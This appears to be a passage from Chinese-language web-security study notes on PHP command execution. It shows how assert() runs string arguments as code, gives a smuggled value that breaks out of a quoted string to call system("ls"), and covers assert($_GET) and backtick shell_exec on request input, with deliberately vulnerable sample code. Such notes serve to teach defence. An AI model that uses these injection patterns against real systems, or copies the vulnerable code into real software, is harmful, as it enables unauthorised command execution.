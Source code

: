 # 13. 命令执行
## assert

assert 函数的参数可以为布尔类型的值，也可以是字符串，当参数为字符串时，会被当作 PHP 代码执行


```php
// 可以执行 php 代码
$page = "flag'.system(\"ls\").'";
$file = "templates/" . $page . ".php";
// 这里构造后的新字符串如下，
// strpos('templates/'.system("ls").'.php', '..') === false
assert("strpos('$file', '..') === false");

// 当test.php?a=phpinfo()时，phpinfo()会被执行。
$a=$_GET['a'];
assert($a);
```

## 反引号 `

反引号 ` 可以调用 shell_exec 正常执行代码

```powershell
`$_GET[v]` 相当于 shell_exec($_GET['v'])

`$_GET['v']` 变量 v 前后不能有单引号
```

system，exec，shell_exec 的区别

```powershell
system()
$last_line = system('ls'，$return_var);
system()会将输出内容直接印出，所以若于网页，会将所有回传内容都显示于页面上。
$last_line：只能取得最后一行的内容
$return_var：取得系统状态回传码

exec()
exec('ls'，$output，$return_var);
$output：回传内容都会存于此变数中(储存成阵列)，不会直接秀在页面上。
$return_var：取得系统状态回传码

shell_exec()
$output = shell_exec('ls');
$output：回传内容都会存于此变量中(储存成纯文字内容)，不会直接显示在页面上。
```

## preg_replace()

触发条件：
